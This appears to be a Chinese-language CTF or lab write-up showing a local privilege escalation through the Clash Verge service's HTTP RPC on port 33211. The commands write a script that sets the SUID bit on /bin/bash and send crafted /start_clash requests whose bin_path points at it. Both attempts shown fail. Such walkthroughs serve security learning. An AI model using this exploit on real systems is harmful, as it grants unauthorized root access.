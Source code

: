 这个漏洞我看到过，前一阵子有微信小程序发过文章，尝试执行并且搜索相关漏洞：

```bash
wall@greatwall:~$ sudo /usr/bin/systemctl start clash-verge-service
wall@greatwall:~$ sudo /usr/bin/systemctl status clash-verge-service
[sudo] password for wall: 
sudo: a password is required
wall@greatwall:~$ ss -tulnp
Netid               State                Recv-Q               Send-Q                             Local Address:Port                              Peer Address:Port               Process               
udp                 UNCONN               0                    0                                        0.0.0.0:68                                     0.0.0.0:*                                        
tcp                 LISTEN               0                    128                                      0.0.0.0:22                                     0.0.0.0:*                                        
tcp                 LISTEN               0                    128                                    127.0.0.1:33211                                  0.0.0.0:*                                        
tcp                 LISTEN               0                    128                                         [::]:22                                        [::]:*                                        
tcp                 LISTEN               0                    511                                            *:80                                           *:* 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103384.png" alt="image-20250619002740382" style="zoom: 50%;" />

阔以参考：

> https://zyen84kyvn.feishu.cn/docx/PXu6dsXf0onNdRxs8LfceNXjncb
>
> https://mp.weixin.qq.com/s/mRrwQKYsmr9KXUbu_jzDvQ
>
> https://mp.weixin.qq.com/s/K_0xp5m7NEhc7O3CGd1ldg

核心出在service服务，本地会监听33211端口，支持通过HTTP RPC的方式传递binpath参数进行命令调用。

由于限制了开放端口，故尝试在靶机本地进行利用：

```bash
wall@greatwall:/tmp$ echo '#!/bin/bash' > exp.sh
wall@greatwall:/tmp$ echo 'chmod +s /bin/bash' >> exp.sh
wall@greatwall:/tmp$ chmod +x exp.sh
wall@greatwall:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 Mar 30  2024 /bin/bash
wall@greatwall:/tmp$ curl -s -I -X POST 'http://127.0.0.1:33211/start_clash' -H "Host: 127.0.0.1:33211" -H "Content-Type: application/json" -d '{"core_type":"verge-mihome","bin_path":"/tmp/exp.sh","config_dir":"","config_file":"/tmp/exp.sh","log_file":"/tmp/clash.log"}'
wall@greatwall:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 Mar 30  2024 /bin/bash
```

失败了，可能是构造请求错误了。。。使用工具直接生成请求：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103385.png" alt="image-20250619005158205" style="zoom:33%;" />

```bash
curl -X POST -H 'Content-Type: application/json' -d '{
"core_type":"verge-mihome",
"bin_path":"/tmp/exp.sh",
"config_dir":"1",
"config_file":"/tmp/exp.sh",
"log_file":"/tmp/clash.log"
}' 'https://127.0.0.1:33211/start_clash'
# curl: (35) OpenSSL/3.0.15: error:0A00010B:SSL routines::wrong version number
```
